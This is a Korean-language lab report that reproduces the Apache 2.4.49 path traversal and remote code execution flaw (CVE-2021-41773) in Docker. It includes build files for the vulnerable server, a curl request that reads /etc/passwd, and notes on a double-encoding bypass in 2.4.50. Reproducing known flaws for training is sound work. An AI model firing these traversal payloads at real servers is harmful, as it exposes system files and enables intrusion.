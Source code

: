# CVE-2021-41773 Apache Path Traversal & RCE PoC (Docker 기반)

## 개요

이 보고서는 Apache HTTP Server 2.4.49 버전에서 발생한 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점(CVE-2021-41773)에 대한 PoC를 Docker 환경으로 재현하고, 분석 결과를 정리한 문서입니다. 해당 취약점은 URL 인코딩을 우회하여 시스템 파일에 접근할 수 있습니다.

---

## 취약점 설명

- Apache 2.4.49에서는 요청 경로 내의 `../` 경로 탐색 문자열에 대한 필터링이 불완전하여, URL 인코딩(`%2e%2e/`) 등을 이용한 우회가 가능했습니다.
- 이로 인해 공격자는 웹 루트 밖의 시스템 파일(`/etc/passwd` 등)에 접근하거나, CGI 기능이 활성화된 경우 임의의 명령 실행이 가능합니다.

---

## 취약 환경 구성 파일

### 📄 Dockerfile

```dockerfile
FROM ubuntu:20.04

RUN apt-get update --allow-releaseinfo-change && \
    DEBIAN_FRONTEND=noninteractive apt-get install -y \
    wget curl make gcc g++ perl libpcre3 libpcre3-dev \
    libapr1 libapr1-dev libexpat1-dev && \
    apt-get clean

RUN wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    tar xvfz apr-1.7.0.tar.gz && cd apr-1.7.0 && \
    ./configure --prefix=/usr/local/apr && make && make install

RUN wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar xvfz apr-util-1.6.1.tar.gz && cd apr-util-1.6.1 && \
    ./configure --with-apr=/usr/local/apr --prefix=/usr/local/apr-util && \
    make && make install

RUN wget https://sourceforge.net/projects/pcre/files/pcre/8.45/pcre-8.45.tar.gz && \
    tar xvfz pcre-8.45.tar.gz && cd pcre-8.45 && \
    ./configure --prefix=/usr/local/pcre && make && make install

RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    tar -xf httpd-2.4.49.tar.gz && cd httpd-2.4.49 && \
    ./configure --prefix=/usr/local/apache2.4.49 \
    --enable-module=so --enable-rewrite --enable-so \
    --with-apr=/usr/local/apr/ \
    --with-apr-util=/usr/local/apr-util \
    --with-pcre=/usr/local/pcre \
    --enable-mods-shared=all && \
    make && make install

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 8080
CMD ["/entrypoint.sh"]
```

### 📄 entrypoint.sh

```bash
#!/bin/bash

sed -i 's/Listen 80/Listen 8080/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i 's/Require all denied/Require all granted/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i '/mod_cgi.so/s/^#//g' /usr/local/apache2.4.49/conf/httpd.conf

cat <<EOF >> /usr/local/apache2.4.49/conf/httpd.conf

<Directory "/usr/local/apache2.4.49/cgi-bin">
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>
EOF

/usr/local/apache2.4.49/bin/httpd -k start -DFOREGROUND
```

### 📄 docker-compose.yml

```yaml
version: '3'
services:
  apache-vuln:
    build: .
    ports:
      - "8080:8080"
```

---

## PoC 수행

### 1️⃣ 도커 빌드 및 실행

```bash
docker compose up -d
```

### 2️⃣ Apache 버전 확인

```bash
curl -I http://localhost:8080
```

### 3️⃣ Path Traversal 테스트

```bash
curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

---

## 패치 분석 및 버전 비교

| 버전 | 우회 가능 여부 | 설명 |
|------|----------------|------|
| 2.4.49 | ✅ 가능 | `%2e%2e/` 인코딩 필터링 미흡 |
| 2.4.50 | ⚠️ 일부 가능 | 이중 인코딩(`%%32%65`)으로 우회 가능 |
| 2.4.51 | ❌ 차단 | 이중 인코딩, 슬래시 필터링까지 완전 차단 |

> Apache는 `ap_normalize_path`, `ap_unescape_url` 함수에 필터링을 추가하여 우회 가능성을 원천 차단하였습니다.

---

## GitHub Repo

- 🔗 [공식 PoC Repository](https://github.com/gongjae/cve-2021-41773-docker-poc)

---

## 결론

Apache HTTP Server 2.4.49의 경로 유효성 검증 부족으로 인해 발생한 CVE-2021-41773은 단순한 URL 인코딩으로도 시스템 파일 접근 및 명령 실행이 가능했던 치명적인 취약점입니다. 본 보고서는 Docker 환경 내에서 이를 재현하며, 차후 취약점 분석이나 보안 교육 자료로 활용할 수 있습니다.
